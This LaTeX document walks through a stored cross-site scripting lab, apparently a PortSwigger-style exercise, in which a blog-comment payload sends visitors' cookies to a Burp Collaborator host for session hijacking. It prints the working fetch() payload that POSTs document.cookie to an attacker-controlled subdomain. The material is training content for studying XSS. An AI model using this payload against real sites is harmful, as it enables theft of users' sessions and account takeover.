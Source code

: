 \documentclass{article}
\begin{document}
\section*{Exploiting cross-site scripting examples explainging}
\textbf{Using Burp Suite Collaborator to Steal Cookies}
\begin{enumerate}
\item Using Burp Suite Professional, go to the \textbf{Collaborator tab}
\item Click \texttt{"Copy to clipboard"} to copy a unique Burp Collaborator payload to your clipboard
\item Submit the following payload in a blog comment, inserting your Burp Collaborator subdomain where indicated:
\begin{lstlisting}[frame=single]
<script> fetch('https://BURP-COLLABORATOR-SUBDOMAIN',
{ method: 'POST', mode: 'no-cors', body: document.cookie }); </script>
\end{lstlisting}
\item This script will make anyone who views the comment issue a POST request containing their cookie to your subdomain on the public Collaborator server
\item Go back to the Collaborator tab, and click \texttt{"Poll now"}. You should see an HTTP interaction. If you don't see any interactions listed, wait a few seconds and try again
\item Reload the main blog page, using Burp Proxy or Burp Repeater to replace your own session cookie with the one you captured in Burp Collaborator
\end{enumerate}

\underline{How This Attack Works:}
\begin{itemize}
\item The malicious script executes in the victim's browser when they view the compromised page
\item \texttt{fetch()} API sends an HTTP POST request to the attacker-controlled Collaborator server
\item \texttt{document.cookie} contains the victim's session cookies
\item \texttt{mode: 'no-cors'} allows the request to be sent despite cross-origin restrictions
\end{itemize}
\end{document}
